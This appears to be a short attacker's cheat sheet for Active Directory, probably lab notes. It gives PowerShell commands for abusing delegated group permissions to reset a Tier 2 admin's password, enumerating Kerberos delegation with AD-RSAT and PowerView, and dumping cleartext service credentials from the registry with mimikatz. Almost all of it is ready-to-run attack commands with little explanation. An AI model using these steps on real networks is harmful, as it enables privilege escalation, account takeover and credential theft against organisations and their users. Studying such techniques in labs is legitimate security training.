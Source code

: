 ## AD-RSAT for permision delegation
# Add-ADGroupMember 
`$user = Get-ADUser -Identity 'user.name'
$group = Get-ADGroup -Identity 'IT Support'
Add-ADGroupMember -Identity $group -Members $user
Get-ADGroupMember -Identity $group`

# Check the members of a group
`Get-ADGroupMember -Identity "IT Support`

# # Pick a random T2 account to target
`$t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1`

# Change the password
`$password = 'strong.pass1' | ConvertTo-SecureString -AsPlainText -Force
Set-ADAccountPassword -Identity $t2admin -Reset -NewPassword $password`

**If you get an access denied error, your membership of the IT Support group have not fully replicated through the network yet. Try running gpupdate /force or wait a few minutes and try again.**

## Kerberos unconstrained delegation computers
# Enumeration for delegation(AD-RSAT)
`Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description`

# Powerview find for delegations
`Import-Module C:\Tools\PowerView.ps1 `
`Get-NetUser -TrustedToAuth` *full enumeration! userprincipalname: (the service), msds-allowedtodelegateto: (the services it can delegate)*

# Check for if potential service exists so we can dump cred later on 
`Get-CimInstance -ClassName Win32_Service | Where-Object {$_.StartName -like 'svcIIS*'} | Select-Object *`**

# MIMIKATZ: Dump clear text credentials (for services)from registry
`mimikatz # token::elevate`*Elevate System privs*
`mimikatz # lsadump::secrets`*Dump clear text cred from registry for features such as Windows services*
`mimikatz # token::revert`*revert the priv*

